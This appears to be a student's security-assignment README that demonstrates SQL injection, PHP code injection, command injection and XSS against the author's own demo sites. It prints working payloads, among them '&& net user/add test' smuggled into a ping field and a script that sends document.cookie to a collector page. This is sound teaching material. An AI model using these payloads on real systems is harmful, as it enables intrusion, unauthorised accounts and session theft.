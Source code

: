 
# Implementation of 4 types of injection attacks

Implementation of 4 types of injection attacks SQL injection, code injection, command injection and XSS cross site scripting attack.


## 1. SQL injection :

**Goal ‐ A simple login authentication dynamic website.**


How to perform ‐


**step 1** ‐ with a true existing user with valid name and password.



![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-000.jpg?raw=true)

![APP Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-001.png?raw=true)

**Result** ‐

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-002.jpg?raw=true)


**step 2** ( performing ) ‐ 
```bash
  'OR'1'='1
```


![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-004.jpg?raw=true)
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-005.jpg?raw=true)


_Note : schema for this specif code contains id, name, password_

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/Screenshot%20(500).png?raw=true)



## 2. Code injection :


**Goal ‐ A simple website for calculating result of an expression.**

How to perform ‐

**step 1** : 
```
1+1*2 
```
is input as a simple expression

![APP Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-006.jpg?raw=true)

**Result**
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-007.jpg?raw=true)

**step 2** : 
```
1+1*2 && phpinfo();
```
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-008.jpg?raw=true)

***Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-009.jpg?raw=true)


# 3. Command injection :

**Goal ‐ A simple website which can tell us ping of any ip address or url.**

How to perform ‐

**step 1** ‐ check ping of any ip address or website


![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-010.jpg?raw=true)


**Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-011.jpg?raw=true)

**step 2** ‐ 
```
8.8.8.8 && whoami
```
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-012.jpg?raw=true)

**Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-013.jpg?raw=true)


desktop‐u1vs0am\samir boro

similer commands to perform code injectio ‐


```
8.8.8.8 && whoami
```

```
8.8.8.8 && net user/add test
```
```
8.8.8.8 && net user/ net users // to check
```



# 4. XSS injection :

**Goal ‐ A greeting website which gerenartes hello, ______name**

How to perform ‐

**step 1** ‐ we are checking in input tag to perform xss
```
<script> alert("I'm root ") </script>
```

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-014.jpg?raw=true)

**Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-015.jpg?raw=true)


**step 2** ‐ 
```
<script> location.href="xss.php?data='+document.cookie'" </script>
```

in real life that xss.php is replaced by www.something.com/xss.php or any urls.

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-016.jpg?raw=true)

**Result** ‐ That leads no change in website. Congratulations we have successfully inject js
code.

**step 3** ‐ 
whenever any user submit their name to get greeting they will get the result, as well
as the cookie has now passed to xss.php without knowing to the user.




![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-017.jpg?raw=true)


![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-018.jpg?raw=true)

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-019.jpg?raw=true)











## Computer Security assignment

For support, email samirboro92@gmail.com 

Download the pdf - https://github.com/Experiya/snapshot/raw/main/Attack_samirboro_IIITG/Attack_samirboro_IIITG.pdf
